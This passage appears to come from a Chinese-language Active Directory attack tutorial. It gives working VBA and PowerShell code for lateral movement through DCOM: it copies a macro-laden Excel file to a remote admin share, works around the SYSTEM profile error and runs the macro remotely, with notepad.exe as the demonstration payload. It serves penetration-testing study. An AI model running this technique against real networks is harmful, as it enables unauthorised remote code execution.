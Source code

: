 若要使用此功能，我们首先将通过选择VIEWribbon并单击Excel中的Macros来创建带有概念证明宏的Excel文档。在此简单的POC中，我们将创建一个启动notepad.exe的VBA宏

```vbscript
Sub mymacro()
    Shell ("notepad.exe")
End Sub
```

我们将宏命名为“ mymacro”，并将Excel文件保存为旧版.xls格式。要执行该宏，必须先将Excel文档复制到远程计算机。由于我们必须是本地管理员才能利用DCOM，因此我们还应该可以通过SMB访问远程文件系统。我们可以使用.NET System.IO.Fileclass的Copy方法复制文件。要调用它，我们指定源文件，目标文件和一个标志，以指示是否应覆盖目标文件（如果存在）。

```powershell
$LocalPath = "C:\Users\jeff_admin.corp\myexcel.xls"
$RemotePath = "\\192.168.1.110\c$\myexcel.xls"[System.IO.File]::Copy($LocalPath, $RemotePath, $True)
```

在我们能够对宏执行Run之前，我们必须首先指定它所包含的Excel文档。这是通过Workbooks对象的Open方法完成的，该方法也可以通过之前DCOM的枚举中workbooks一项确认

![image-20200604204413302](assets/12.AD进攻.assets/image-20200604204413302.png)

如果我们只是直接利用workbook打开容易产生错误

![image-20200604204751900](assets/12.AD进攻.assets/image-20200604204751900.png)

这是由于，通过DCOM实例化Excel.Application时，它是使用SYSTEM帐户完成的。SYSTEM帐户没有配置文件，该配置文件用作打开过程的一部分。我们可以简单地在满足此配置文件要求的C：\ Windows \ SysWOW64 \ config \ systemprofile上创建Desktop文件夹。我们可以使用以下PowerShell代码创建此目录以避免错误：

```powershell
$Path = "\\192.168.1.110\c$\Windows\sysWOW64\config\systemprofile\Desktop"
$temp = [system.io.directory]::createDirectory($Path)
```

整个过程合并之后的完整代码

```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "192.168.1.110"))
$LocalPath = "C:\Users\jeff_admin.corp\myexcel.xls"
$RemotePath = "\\192.168.1.110\c$\myexcel.xls"[System.IO.File]::Copy($LocalPath, $RemotePath, $True)
$Path = "\\192.168.1.110\c$\Windows\sysWOW64\config\systemprofile\Desktop"
$temp = [system.io.directory]::createDirectory($Path)
$Workbook = $com.Workbooks.Open("C:\myexcel.xls")
$com.Run("mymacro")
```

此代码应打开Notepad应用程序，作为在远程计算机上以高完整性执行的后台进程

